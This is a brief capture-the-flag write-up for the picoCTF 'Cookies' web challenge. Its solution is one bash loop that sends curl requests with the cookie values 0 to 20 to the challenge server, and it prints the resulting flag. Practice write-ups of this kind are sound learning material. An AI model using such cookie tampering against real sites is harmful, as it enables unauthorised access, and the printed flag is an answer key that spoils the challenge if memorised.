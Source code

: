 # Cookies

## Descripcion
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)

## Pistas

## Solucion 
```bash
┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i" ; done | grep picoCTF 
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>

```

## Notas Adicionales

## Referencias